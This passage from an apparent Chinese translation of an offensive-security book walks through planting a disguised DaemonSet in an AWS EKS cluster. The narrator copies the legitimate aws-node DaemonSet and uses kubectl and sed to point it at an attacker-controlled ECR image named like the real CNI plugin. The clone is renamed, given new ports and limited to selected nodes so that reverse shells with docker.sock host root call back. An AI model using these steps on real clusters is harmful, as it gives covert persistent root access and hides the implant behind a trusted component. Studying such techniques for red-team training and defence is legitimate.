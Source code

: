 假容器（amazon-k8s-cni）和 S3 存储桶（amazon-cni-plugin-essentials）的名称并非随意选择。EKS 在每个节点上运行一个类似的容器副本，用于管理 Pod 和节点的网络配置，正如我们从任何运行中的集群中获取的 Pod 列表所见：

```
shell> **kubectl get pods -n kube-system | grep aws-node**
aws-node-rb8n2            1/1     Running   0          7d
aws-node-rs9d1            1/1     Running   0          23h
`--snip--`
```

这些名为 aws-node-*xxxx* 的 Pod 正在运行托管在 AWS 自有仓库中的官方 `amazon-k8s-cni` 镜像。

这些 Pod 是由一个 *DaemonSet* 对象创建的，这是一个 Kubernetes 资源，确保在所有（或部分）节点上始终运行至少一个给定的 Pod 副本。每个这些 aws-node Pod 都分配了一个具有只读访问权限的服务帐户，可以访问所有命名空间、节点和 Pod。更重要的是，它们都自动挂载了 */var/run/docker.sock*，赋予它们对主机的 root 权限。这是一个完美的掩护。

我们将生成这个 DaemonSet 的几乎完全相同副本。然而，与真正的 DaemonSet 不同，这个新的 DaemonSet 将从我们自己的 ECR 仓库获取 `amazon-k8s-cni` Pod 镜像。默认情况下，DaemonSet 会在所有机器上运行。我们不希望出现成千上万的反向 shell 一次性回拨的情况，因此我们只会针对几个节点——例如，三个带有 “kafka-broker-collector” 标签的节点。这是我们邪恶 DaemonSet 的一个合适的目标群体。

以下命令显示机器名称及其标签：

```
shell> **kubectl get nodes --show-labels**

ip-192-168-178-150.eu-west-1.compute.internal

service=kafka-broker-collector,
beta.kubernetes.io/arch=amd64,
beta.kubernetes.io/instance-type=t2.small, beta.kubernetes.io/os=linux

ip-192-168-178-150.eu-west-1.compute.internal
`--snip--`
ip-192-168-178-150.eu-west-1.compute.internal
`--snip--`
```

我们已经选择了目标。我们的有效载荷已锁定并准备就绪。下一步是创建 DaemonSet 对象。

无需去寻找 DaemonSet 的 YAML 定义；我们直接导出合法的 aws-node 使用的 DaemonSet，更新容器镜像字段，使其指向我们自己的仓库，修改显示名称（将 aws-node 改为 aws-node-cni），更改容器端口以避免与现有 DaemonSet 的冲突，最后添加标签选择器以匹配 kafka-broker-collector。在 示例 9-5 中，我们重新提交了新修改的文件以进行调度。

```
shell> **kubectl get DaemonSet aws-node -o yaml -n kube-system > aws-ds-manifest.yaml**

# Replace the container image with our own image
shell> **sed -E "s/image: .*/image: 886477354405.dkr.ecr.eu-west-1.amazonaws.com/\**
**amazon-k8s-cni:v1.5.3/g" -i aws-ds-manifest.yaml**

# Replace the name of the DaemonSet
shell> **sed "s/ name: aws-node/ name: aws-node-cni/g" -i aws-ds-manifest.yaml**

# Replace the host and container port to avoid conflict
shell> **sed -E "s/Port: [0-9]+/Port: 12711/g" -i aws-ds-manifest.yaml**

# Update the node label key and value
shell> **sed "s/ key: beta.kubernetes.io\/os/ key: service/g" -i aws-ds-manifest.yaml**

shell> **sed "s/ linux/ kafka-broker-collector/g" -i aws-ds-manifest.yaml**
```
